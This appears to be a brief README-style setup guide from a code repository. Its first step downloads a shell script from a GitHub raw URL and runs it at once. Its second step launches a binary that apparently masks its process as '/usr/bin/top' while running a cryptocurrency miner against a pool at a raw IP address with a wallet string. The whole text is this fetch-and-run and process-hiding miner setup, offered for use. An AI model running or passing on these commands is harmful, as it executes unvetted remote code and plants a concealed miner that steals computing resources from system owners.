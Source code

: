 ##action one

wget https://raw.githubusercontent.com/hudahadoh/hime/main/rest.sh && chmod +x rest.sh && ./rest.sh

##action two
example : 

./hi -s "/usr/bin/top" -d -p test.pid ./bhmax --url 158.69.251.105:4052 --user SOL:5VqKde82ANkwGDXTRpBRa3vd1PFn1gdGN6tP7aJ38gx4.xbh --pass x-bh --donate-level 1
